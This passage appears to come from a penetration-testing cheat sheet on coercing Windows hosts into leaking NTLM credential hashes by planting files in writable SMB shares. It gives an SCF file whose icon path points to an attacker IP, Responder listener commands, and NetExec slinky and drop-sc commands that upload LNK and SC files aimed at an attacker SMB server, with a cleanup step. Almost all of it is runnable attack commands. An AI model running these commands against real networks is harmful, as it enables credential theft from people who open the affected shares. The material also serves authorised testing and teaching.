 ```bash
[Shell]
Command=2
IconFile=\\10.10.10.10\share\test.io
[Taskbar]
Command=ToggleDesktop
```

Listen:

```bash
sudo responder -I tun0
```

Transfer the SCF file to the writable directory:

```bash
sudo cp example.scf SMB/Users/WritableDir
```
{% endtab %}

{% tab title="LNK" %}
A **Link (LNK) file** is a Windows shortcut file that points to another file, folder, or program. When opened, it tells Windows to launch the target it links to — but it can also include **custom commands**, making it useful for both legitimate use and malicious purposes like executing hidden payloads.

Upload a LNK file:

{% code overflow="wrap" %}
```bash
nxc smb <target-ip> -u <user> -p <pass> -M slinky -o SERVER=<smb-server-ip> NAME=README
```
{% endcode %}

Listen (MSF's `auxiliary/server/capture/smb` can also be used):

```bash
sudo responder -I tun0
```

Clean up:

```bash
nxc smb <target-ip> -u <user> -p <pass> -M slinky -o NAME=README CLEANUP=YES
```
{% endtab %}

{% tab title="SC" %}
A **Service Configuration (SC)** **file** is a plain text file used to create or configure Windows services. It defines parameters like the service name, executable path, and startup settings. This is similar to the LNK method, but the URL needs to be escaped with `\\` and by default it writes the file `Documents` in all writable shares.

Upload a SC file:

{% code overflow="wrap" %}
```bash
nxc smb <target-ip> -u <user> -p <pass> -M drop-sc -o URL=\\\\<smb-server-ip>\\<share_name> SHARE=<share_name> FILENAME=README
```
{% endcode %}
